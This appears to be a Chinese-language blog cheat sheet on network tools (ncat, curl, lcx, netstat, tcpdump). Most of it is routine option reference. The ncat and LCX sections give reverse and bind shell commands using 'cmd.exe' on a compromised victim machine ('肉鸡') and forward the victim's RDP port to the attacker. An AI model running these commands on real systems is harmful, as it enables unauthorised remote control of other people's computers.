





ncat、curl、lcx、netstat、tcpdump
几个网络相关的小工具
00 ncat
监听某一端口
ncat -l port连接远程端口
ncat ip port默认情况下只会连接TCP端口
可以开启两个终端，一边监听一边连接，实现消息发送


监听UDP端口
ncat -l -u port连接远程UDP端口
ncat -u ip port单向代理
ncat -l port1 | ncat ip2 port2监听本地的port1端口，将port1端口的流量转发到ip2的port2端口
只能发送数据，无法接收返回的数据
双向代理
mkfifo 2way
ncat -l port1 0<2way | ncat ip2 port2 1>2way
能发送数据，也能接收返回的数据
端口转发
ncat -u -l port1 -c ‘ncat -u -l port2’
将port1端口的流量转发给port2反弹shell
肉鸡监听端口，本机连接
肉鸡执行：ncat -l -p port -t -e cmd.exe
本机执行：ncat -nvv 肉鸡IP port
本机监听端口，肉鸡连接
本机执行：ncat -l -p port
肉鸡执行：ncat -t -e cmd.exe IP port
-t 表示通过Telnet模式执行
01 curl
参考 http://www.ruanyifeng.com/blog/2011/09/curl.html 与 https://www.ruanyifeng.com/blog/2019/09/curl-reference.html
获取页面
直接发送GET请求，会输出网站源码

用-o参数保存
curl -o example.html https://www.example.com
用-O参数保存
获取HTTP响应头和页面
curl -i https://www.example.com
返回HTTP响应头和源码

获取连接过程、HTTP请求头、HTTP响应头和页面
curl -v https://www.example.com

设置请求方式
默认为GET请求，可以设置其他请求方式
- curl -X POST https://www.example.com
- curl -X DELETE https://www.example.com
- -I / –head 发送HEAD请求
提交表单
GET方式 curl https://www.example.com/?data=abc123
POST方式 curl -X POST https://www.example.com –data /-d “data=abc123”
也可以读取本地文件数据发送POST请求
curl -d ‘@localfile.txt’ https://example.com
文件上传
假设网站上传文件的代码如下：
<form method="POST" enctype='multipart/form-data' action="upload.cgi"> <input type=file name=upload> <input type=submit name=press value="OK"> </form>上传本地文件localfile的命令如下：
curl –form upload=’@localfile’ –form press=OK [URL]
上传二进制文件
curl -F ‘file=@localfile’ https://example.com
设置MIME类型
curl -F ‘file=@localfile;type=image/png’ https://example.com设置上传后的文件名
curl -F ‘file=@localfile;filename=new.png’ https://example.com
修改HTTP请求头 -H / –header
如修改referer
curl -H ‘your_referer’ https://example.com
UA、cookie以及其它头部内容的修改也可以通过-H / –header参数进行
设置User-Agent
默认UA为 curl/version
使用-A参数
curl -A ‘your_ua’ https://example.com
使用–user-agent参数
curl –user-agent ‘your_ua’ https://example.com
设置Referer
使用-e参数
curl -e ‘your_referer’ https://example.com
使用–referer参数
curl –referer your_referer https://example.com
设置cookie
curl –cookie “name=xxx” www.example.com
保存cookie文件
curl -c cookies http://example.com发送cookie文件
curl -b cookies http://example.com
设置代理
curl -x your_proxy https://www.example.com
HTTP认证
curl –user / -u name:pass http://example.com
跳过SSL证书数检查
curl -k https://www.example.com
跟随服务器重定向（默认不跟随）
curl -L https://www.example.com
显示信息
-s 不输出错误信息和进度信息
-S 只输出错误信息和进度信息
-v 输出通信过程
获取更详细的信息 curl –trace 1.txt https://www.example.com
在保存的文件中可以看到传输的十六进制数据
02 LCX
端口转发（需要本机有公网IP）：
- 本机执行 lcx.exe -listen 9999 3389
- 肉鸡执行 lcx.exe -slave 本机公网IP 9999 肉鸡IP 3389
结果：将肉鸡的3389端口转发到本机的9999端口
03 netstat
参考：codesheep
netstat用于获取网络连接信息
- 参数
- -n 使用IP地址表示主机
- -a 显示结果中包含的socket
- -t 仅显示TCP连接
- -r 显示路由信息
- -i 显示网卡接口数据流量
- -c 每隔一秒输出一次
- -o 显示socket定时器的信息
- -p 显示socket所属的进程的PID和名字
- -s 打印统计信息
- 常用组合
- 只列出TCP或UDP连接 netstat -at/-au
- 列出监听中的连接 netstat -tnl
- 获取进程名、进程号及用户ID netstat -nlpt
- 持续输出 netstat -ct
- 打印active状态的连接 netstat -atpn | grep ESTA
- 查看服务是否运行 netstat -aple | grep ntp
04 tcpdump
参考：codesheep
- 参数
- -n 使用IP地址表示主机，使用数字表示端口
- -i 指定要监听的端口，如果为”-i any“则表示所有网卡数据包
- -v 输出TTL等更详细的信息
- -t 不打印时间戳
- -e 显示以太网帧头部信息
- -c 仅抓取指定数量的数据包
- -x 按照十六进制显示内容
- -X 输出十六进制和对应的ASCII字符
- -S 设置抓包长度
- -W 将结果定向输出到某个文件，一般是pcap后缀
- -r 从pcap文件读取数据包并显示
- post 指定端口
- 常用组合
- 指定捕获包的协议类型 tcpdump -i eth0 arp
- 捕获DNS请求和响应 tcpdump -i eth0 -s0 port 53
- 匹配HTTP请求头 tcpdump -s 0 -v -n -l |egrep -i “POST /|GET /|Host:”
- 获取特点目的IP+PORT的数据包 tcpdump -i eth0 dst address and port 22
本博客所有文章除特别声明外，均采用 CC BY-SA 3.0协议 。转载请注明出处！